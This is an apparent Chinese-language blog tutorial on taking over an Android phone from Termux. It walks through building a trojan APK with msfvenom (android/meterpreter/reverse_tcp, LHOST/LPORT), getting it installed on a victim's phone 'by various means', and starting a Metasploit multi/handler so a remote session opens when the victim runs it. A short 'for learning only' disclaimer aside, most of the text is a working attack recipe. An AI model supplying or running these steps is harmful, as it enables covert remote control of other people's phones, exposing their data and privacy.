





关于如何使用termux渗透一台安卓手机
三月 30, 2020
注意:此教程只供学习交流使用，请勿非法使用，如发生与本人无关！！！
所需工具:msf、ifconfig、nmap(如果你还没有安装msf请看之前的教程)
1、获取相关信息
#ifconfig

记下你的IP地址及相关信息
2、生成木马
#msfvenom -p android/meterpreter/reverse_tcp LHOST=你在局域网内的IP(我的是192.168.0.13) LPORT=监听的端口(我用的是8888) R > data/data/flie/home木马的名字(我用的是1).apk
接下来你是ls就可以查看到你所生成的木马啦。
注意:R >后是你所生成的木马的路径，在生成木马之前你可以pwd一下查看当前路径！！！
这是我所生成的木马
接下来你需要通过种种方法将此木马安装到你所需要渗透的那个手机上。
3、启动msf
#msfconsole

4、加载攻击模块
#use exploit/multi/handler

5、选择要使用的Payload
#set payload android/meterpreter/reverse_tcp

6、显示需要的参数
#show options

7、设置参数
#set LHOST （你之前通过ifconfig所获得的IP）
#set LPORT（你刚刚输入的端口）
8、开始采集
#exploit
或者run都行😁
9、当使用者打开木马时，你的手机就会弹出一行会话，你便成功控制了这个手机。
输入help你便可以查看相关的命令
附上一张图
查看评论